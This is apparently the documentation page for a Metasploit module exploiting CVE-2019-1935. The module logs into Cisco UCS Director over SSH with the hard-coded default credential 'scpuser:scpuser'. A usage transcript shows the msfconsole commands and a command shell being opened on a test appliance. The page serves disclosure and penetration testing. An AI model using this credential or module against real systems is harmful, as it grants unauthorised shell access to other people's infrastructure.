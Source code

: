 ## Intro

This module abuses a known default password on Cisco UCS Director. The 'scpuser'
has the password of 'scpuser', and allows an attacker to login to the virtual appliance
via SSH (aka CVE-2019-1935).

This module has been tested with Cisco UCS Director virtual machines 6.6.0 and 6.7.0.
Note that Cisco also mentions in their advisory that their IMC Supervisor and
UCS Director Express are also affected by these vulnerabilities, but this module
was not tested with those products.


## Author and discoverer

Pedro Ribeiro (pedrib@gmail.com) from Agile Information Security


## References

https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20190821-imcs-usercred
FULL_DISC
https://raw.githubusercontent.com/pedrib/PoC/master/advisories/cisco-ucs-rce.txt


## Usage

Setup RHOST and run it!

```
msf5 exploit(linux/http/cisco_ucs_rce) > use exploit/linux/ssh/cisco_ucs_scpuser
msf5 exploit(linux/ssh/cisco_ucs_scpuser) > set rhost 10.9.8.121
rhost => 10.9.8.121
msf5 exploit(linux/ssh/cisco_ucs_scpuser) > set lhost 10.9.8.1
lhost => 10.9.8.1
msf5 exploit(linux/ssh/cisco_ucs_scpuser) > run

[*] 10.9.8.121:22 - Attempt to login to the Cisco appliance...
[+] 10.9.8.121:22 - Login Successful (scpuser:scpuser)

[*] Found shell.
[*] Command shell session 1 opened (10.9.8.1:38113 -> 10.9.8.121:22) at 2019-08-29 22:27:42 +0700

whoami
scpuser
^C
Abort session 1? [y/N]  y
""

[*] 10.9.8.121 - Command shell session 1 closed.  Reason: User exit
```
